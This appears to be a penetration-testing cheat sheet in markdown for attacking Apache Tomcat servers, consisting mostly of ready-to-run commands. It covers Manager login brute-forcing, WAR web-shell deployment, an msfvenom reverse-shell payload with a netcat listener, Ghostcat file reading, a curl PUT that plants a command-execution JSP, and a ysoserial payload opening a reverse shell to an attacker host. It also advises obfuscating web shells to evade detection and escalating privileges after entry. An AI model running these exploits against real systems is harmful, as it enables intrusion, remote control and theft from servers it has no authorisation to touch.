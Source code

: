 

## **1. Tomcat Manager Brute-Force:**

```bash
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <target_ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT <target_port>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST <target_vhost>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

```bash
python3 mgr_brute.py -U http://<target>:<port>/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

- Brute-force attack on Tomcat Manager login.

---

## **2. WAR File Upload (After Login):**

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

- Upload the `.war` file via `/manager/html` interface.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f war > backup.war
nc -lnvp <attacker_port>
```

- Generates a reverse shell `.war` payload and sets up a listener.

---

## **3. CVE-2020-1938 (Ghostcat - AJP LFI Exploit):**

```bash
nmap -sV -p 8009,8080 <target_ip>
python2.7 tomcat-ajp.lfi.py <target_ip> -p 8009 -f WEB-INF/web.xml
```

- Exploits the AJP protocol to read sensitive files.

---

## **4. Exploiting CVE-2009-3548 (Tomcat Deployment Bypass):**

```bash
curl -T shell.war http://<target_ip>:8080/manager/deploy?path=/shell
```

- Uploads a `.war` file without authentication on vulnerable Tomcat instances.

---

## **5. Exploiting CVE-2017-12617 (Arbitrary JSP Upload via HTTP PUT):**

```bash
curl -v -X PUT -d '<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>' http://<target>:8080/shell.jsp
```

- Allows arbitrary JSP file upload, enabling remote command execution.

---

## **6. Tomcat Weak Configuration & Exploitation:**

```bash
curl -u admin:admin http://<target>:8080/manager/html
```

- Many Tomcat servers use default credentials.

---

## **7. Exploiting CVE-2020-9484 (Tomcat Deserialization RCE):**

```bash
ysoserial -g CommonsCollections6 -o raw -c "nc -e /bin/bash <attacker_ip> <port>" > payload.ser
curl -X POST -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser http://<target>:8080
```

- Exploits Java deserialization in persistent sessions for RCE.

---

## **8. Attacking Tomcat with Metasploit (JSP Upload via RCE):**

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target_ip>
set USERNAME admin
set PASSWORD admin
run
```

- Deploys a JSP shell on a vulnerable Tomcat instance.

---

## **9. Exploiting Tomcat with JMX RMI (CVE-2016-8735):**

```bash
msfconsole
use exploit/multi/misc/java_jmx_server
set RHOST <target_ip>
set RPORT 1099
run
```

- Gains remote access via exposed JMX RMI endpoints.

---

## **10. Tomcat JMX Exploitation:**

```bash
java -jar jmxterm-1.0-alpha-4-uber.jar --url service:jmx:rmi:///jndi/rmi://<target_ip>:<port>/jmxrmi
```

- Enumerates and interacts with JMX services for possible RCE.

---

## **11. Tomcat Connectors (AJP & HTTP Connector Misconfigurations):**

- AJP connectors can expose internal resources.
- HTTP connectors can lead to authentication bypass.

---

## **12. Important Considerations & Post-Exploitation:**

- **/manager Access:** Direct access can lead to RCE.
- **Default Credentials:** Often present and should be checked first.
- **Ghostcat (CVE-2020-1938):** Can expose sensitive configuration files.
- **WAR Files:** Can be used for persistence and privilege escalation.
- **JMX Attacks:** Can allow attackers to execute arbitrary code.
- **Version-Specific Vulnerabilities:** Always check Tomcat’s version for known exploits.
- **Web Shell Security:** Encrypt and obfuscate web shells to evade detection.
- **Post-Exploitation:** Once inside, enumerate the system and escalate privileges.

### Example Additions:

- **AJP Exploitation:** "The AJP protocol, if misconfigured, can allow access to internal resources and serious attacks."
- **Tomcat JMX Exploitation:** "Tomcat JMX can execute arbitrary code by interacting with MBeans."
- **Tomcat Connectors:** "Tomcat connectors, such as the AJP and HTTP connectors, can be misconfigured, leading to security risks."
- **Web Shell Evasion:** "Web shells can be obfuscated and encoded to bypass security measures."
- **Post-Exploitation:** "After gaining access to a Tomcat server, it is important to enumerate the system and find other vulnerabilities."
- **Tomcat Version-Specific Attacks:** "Tomcat versions often have unique vulnerabilities, requiring targeted research."

